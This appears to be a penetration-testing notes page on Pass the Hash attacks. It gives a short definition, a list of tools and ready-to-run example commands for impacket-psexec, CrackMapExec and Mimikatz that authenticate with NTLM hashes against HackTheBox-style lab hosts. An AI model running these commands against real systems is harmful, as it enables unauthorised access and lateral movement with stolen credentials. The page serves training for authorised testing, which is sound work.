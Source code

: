 # Pass the Hash

> A Pass the Hash (PtH) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication. The attacker doesn't need to decrypt the hash to obtain a plaintext password. PtH attacks exploit the authentication protocol, as the password hash remains static for every session until the password is changed.
>
> Source: [HackTheBox Academy](https://academy.hackthebox.com/module/147/section/1638)

Several tools can be used for this attack:

- [Mimikatz](https://github.com/gentilkiwi/mimikatz)
- [Impacket](https://github.com/fortra/impacket)
- [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)
- [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)
- [evil-winrm](https://github.com/Hackplayers/evil-winrm)

## External Resources

- [Pass the Hash by Hackndo](https://en.hackndo.com/pass-the-hash/)
- [Pass the Hash by HackTricks](https://book.hacktricks.xyz/windows-hardening/ntlm#pass-the-hash)

## Examples

```bash title="Impacket PsExec Example"
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

```bash title="CrackMapExec Example"
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

```batch title="Mimikatz Example"
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```
